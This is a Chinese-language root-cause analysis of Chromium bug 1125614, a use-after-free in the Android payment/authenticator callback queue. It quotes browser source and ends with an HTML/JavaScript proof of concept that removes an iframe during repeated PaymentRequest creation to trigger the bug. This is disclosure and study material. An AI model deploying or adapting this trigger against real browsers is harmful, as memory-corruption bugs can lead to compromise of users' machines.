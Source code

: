 https://bugs.chromium.org/p/chromium/issues/detail?id=1125614
### Root case

```
PaymentAppServiceBridge::PaymentAppServiceBridge(
    size_t number_of_factories,
    content::RenderFrameHost* render_frame_host,
    const GURL& top_origin,
    PaymentRequestSpec* spec,
    const std::string& twa_package_name,
    scoped_refptr<PaymentManifestWebDataService> web_data_service,
    bool may_crawl_for_installable_payment_apps,
    CanMakePaymentCalculatedCallback can_make_payment_calculated_callback,
    PaymentAppCreatedCallback payment_app_created_callback,
    PaymentAppCreationErrorCallback payment_app_creation_error_callback,
    base::OnceClosure done_creating_payment_apps_callback)
    : number_of_pending_factories_(number_of_factories),
      web_contents_(
          content::WebContents::FromRenderFrameHost(render_frame_host)),
      render_frame_host_(render_frame_host),
      top_origin_(top_origin),
      frame_origin_(url_formatter::FormatUrlForSecurityDisplay(
          render_frame_host->GetLastCommittedURL())),
      frame_security_origin_(render_frame_host->GetLastCommittedOrigin()),
      spec_(spec),
      twa_package_name_(twa_package_name),
      payment_manifest_web_data_service_(web_data_service),
      may_crawl_for_installable_payment_apps_(
          may_crawl_for_installable_payment_apps),
      can_make_payment_calculated_callback_(
          std::move(can_make_payment_calculated_callback)),
      payment_app_created_callback_(std::move(payment_app_created_callback)),
      payment_app_creation_error_callback_(
          std::move(payment_app_creation_error_callback)),
      done_creating_payment_apps_callback_(
          std::move(done_creating_payment_apps_callback)) {}
```
在PaymentAppServiceBridge中存储了render_frame_host的指针，它被用于创建InternalAuthenticatorAndroid

```
std::unique_ptr<autofill::InternalAuthenticator>
PaymentAppServiceBridge::CreateInternalAuthenticator() const {
  return std::make_unique<InternalAuthenticatorAndroid>(render_frame_host_);
}
```
InternalAuthenticator将会传递给一个callback作为IsUserVerifyingPlatformAuthenticatorAvailable函数的参数：
```
void SecurePaymentConfirmationAppFactory::Create(
    base::WeakPtr<Delegate> delegate) {
  
  [.......]
  
      std::unique_ptr<autofill::InternalAuthenticator> authenticator =
          delegate->CreateInternalAuthenticator();

      authenticator->IsUserVerifyingPlatformAuthenticatorAvailable(
          base::BindOnce(&SecurePaymentConfirmationAppFactory::
                             OnIsUserVerifyingPlatformAuthenticatorAvailable,
                         weak_ptr_factory_.GetWeakPtr(), delegate,
                         method_data->secure_payment_confirmation.Clone(),
                         std::move(authenticator)));
      return;
    }
  }

  delegate->OnDoneCreatingPaymentApps();
}
```

而在AuthenticatorImpl.java中可以看到
```
    public void isUserVerifyingPlatformAuthenticatorAvailable(
            IsUserVerifyingPlatformAuthenticatorAvailableResponse callback) {
        Context context = ContextUtils.getApplicationContext();
        // ChromeActivity could be null.
        if (context == null) {
            callback.call(false);
            return;
        }

        if (!ChromeFeatureList.isEnabled(ChromeFeatureList.WEB_AUTH)) {
            callback.call(false);
            return;
        }

        if (PackageUtils.getPackageVersion(context, GMSCORE_PACKAGE_NAME)
                < Fido2ApiHandler.GMSCORE_MIN_VERSION) {
            callback.call(false);
            return;
        }

        mIsUserVerifyingPlatformAuthenticatorAvailableCallbackQueue.add(callback);
        Fido2ApiHandler.getInstance().isUserVerifyingPlatformAuthenticatorAvailable(
                mRenderFrameHost, this);
    }
```
回调将会添加到一个回调队列中mIsUserVerifyingPlatformAuthenticatorAvailableCallbackQueue。

此时会存在一个问题，当我们remove掉frame时，并不会影响到mIsUserVerifyingPlatformAuthenticatorAvailableCallbackQueue这个回调队列，这样在之后回调被调用时就会导致UAF

总结一下：

- InternalAuthenticator创建时生命周期同render_frame_host绑定。
- InternalAuthenticator在SecurePaymentConfirmationAppFactory::Create函数中所有权传递给了SecurePaymentConfirmationAppFactory::OnIsUserVerifyingPlatformAuthenticatorAvailable这个回调函数
- 回调函数被加入到了回调队列，并且该队列不会被render_frame_host影响
- destory frame，render_frame_host被释放，InternalAuthenticator被释放，但是在回调队列中他依旧存在，之后回调触发导致uaf。


### poc

```
<html>
  <script>
  function remove() {
    let frame = document.getElementById("ifrm");
    frame.parentNode.removeChild(frame);
  }
  function load() {
    setTimeout(remove, 1000);
  }
  </script>
  <body onload="load()">
    <iframe id="ifrm" src="payment_request2.html"></iframe>
  </body>
</html>


<html>
  <body>
  	<script>
		  var supportedInstruments = [{
			 supportedMethods: 'secure-payment-confirmation',
             data: {'credentialIds' : [new ArrayBuffer(4)], 'fallbackUrl' : 'localhost:8000', 'networkData' : new ArrayBuffer(4),
                    }
			}];

		  var details = {
		    total: {
		      label: 'Total',
		      amount: { currency: 'USD', value : '55.00' }
		    }
		  };
		  var options = {};

          for (let i = 0; i < 0x100; i++) {
      		var request = new PaymentRequest(supportedInstruments, details, options);
          }
  	</script>
  </body>
</html>
```

